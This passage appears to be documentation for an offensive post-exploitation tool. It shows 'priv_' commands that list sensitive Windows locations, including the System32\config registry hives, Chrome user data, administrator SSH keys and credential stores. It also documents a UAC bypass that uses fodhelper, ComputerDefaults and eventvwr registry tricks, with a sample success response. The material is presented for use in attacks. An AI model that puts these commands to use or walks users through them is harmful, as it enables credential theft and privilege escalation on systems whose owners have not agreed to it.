 ```
  - SECURITY (size: 262,144 bytes)
  - SOFTWARE (size: 45,088,768 bytes)
  - SYSTEM (size: 17,301,504 bytes)
  - COMPONENTS (size: 12,582,912 bytes)
  [...]
```

**Use cases:**

- Browse Windows System32\config directory
- List user AppData folders
- Explore Program Files directories
- Enumerate SSH key directories
- Browse Windows credential stores

**Examples:**

```bash
# List config directory
priv_list_dir C:\Windows\System32\config

# Browse user AppData
priv_list_dir "C:\Users\John\AppData\Local\Google\Chrome\User Data\Default"

# Check SSH directory
priv_list_dir C:\Users\Administrator\.ssh

# List Windows credentials
priv_list_dir C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials
```

---

### Exploitation Commands

#### Windows UAC Bypass

```bash
priv_uac_bypass
```

**What happens:**

- Attempts UAC bypass on Windows
- Uses fodhelper.exe method
- Uses ComputerDefaults.exe method
- Uses eventvwr.exe method
- Modifies registry to bypass UAC

**Response:**

```
UAC bypass attempts: fodhelper.exe registry keys created, fodhelper.exe executed, ComputerDefaults.exe executed, eventvwr.exe executed
```

